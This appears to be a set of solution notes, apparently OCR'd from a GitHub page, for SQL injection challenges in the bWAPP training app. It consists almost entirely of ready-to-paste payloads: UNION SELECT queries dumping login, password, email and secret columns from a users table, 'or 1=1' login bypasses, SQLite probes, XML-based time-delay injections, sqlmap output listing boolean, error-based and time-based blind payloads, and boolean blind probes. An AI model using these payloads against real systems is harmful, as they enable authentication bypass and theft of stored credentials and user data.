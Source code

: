 ```
a%' UNION ALL SELECT 1, column_name, null, null, null, null, null from information_schema.columns where table_name="users";--
```
```
blah%' union all select 1,login,password,email,secret,1, 1 from users --
```
### 💀  SQL Injection (Login Form/Hero) 💀
useing burp
```
ok' or 1=1--
```
```
login=ok' or 1=1-- "&password=ok' or 1=1--  
```
### 💀  SQL Injection (Login Form/User) 💀
```
ok' or 1=1-- "
```
### 💀  SQL Injection(SQLite) 💀

```
a%' UNION ALL SELECT 1,sqlite_version(),1,1,1,1; --
```
or
```
%' UNION ALL select * from users where id=1; -- "
```
or
```
login=lol%' UNION ALL select * from users -- "&password=bug&
```
### 💀  QL Injection - Stored (XML) 💀
use burp
```
<reset><login>bee%' OR SLEEP(5)#</login><secret>lol</secret></reset>
```
sqlmap identified the following injection point(s) with a total of 511 HTTP(s) requests:
```
Parameter: XML (generic) login ((custom) POST)
    Type: boolean-based blind
    Title: MySQL RLIKE boolean-based blind - WHERE, HAVING, ORDER BY or GROUP BY clause
    Payload: <reset><login>bee%' RLIKE (SELECT (CASE WHEN (7674=7674) THEN 0x626565 ELSE 0x28 END)) AND '%'='</login><secret>lol</secret></reset>

    Type: error-based
    Title: MySQL >= 5.1 AND error-based - WHERE, HAVING, ORDER BY or GROUP BY clause (EXTRACTVALUE)
    Payload: <reset><login>bee%' AND EXTRACTVALUE(6673,CONCAT(0x5c,0x7170787671,(SELECT (ELT(6673=6673,1))),0x717a6b6271)) AND '%'='</login><secret>lol</secret></reset>

    Type: AND/OR time-based blind
    Title: MySQL >= 5.0.12 OR time-based blind (comment)
    Payload: <reset><login>bee%' OR SLEEP(5)#</login><secret>lol</secret></reset>
---
```
### 💀  SQL Injection - Blind - Boolean-Based 💀
url /sqli_4.php
```
x' OR '1'='1
```
```
x' OR (select database()='bWAPP') AND '1'='1
```
